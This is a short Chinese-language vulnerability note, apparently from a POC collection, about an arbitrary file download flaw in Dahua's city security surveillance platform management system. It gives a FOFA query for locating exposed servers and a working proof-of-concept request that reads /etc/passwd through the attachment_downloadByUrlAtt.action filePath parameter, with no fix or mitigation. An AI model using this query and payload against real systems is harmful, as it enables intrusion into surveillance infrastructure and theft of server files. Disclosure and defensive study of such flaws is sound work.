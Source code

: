 # 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

## 漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
大华城市安防监控系统平台管理
```

## FOFA

```
"attachment_downloadByUrlAtt.action"
```

## 漏洞复现

登录页面

![image-20220519183144081](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191831267.png)

验证POC

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![image-20220519183319607](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191833705.png)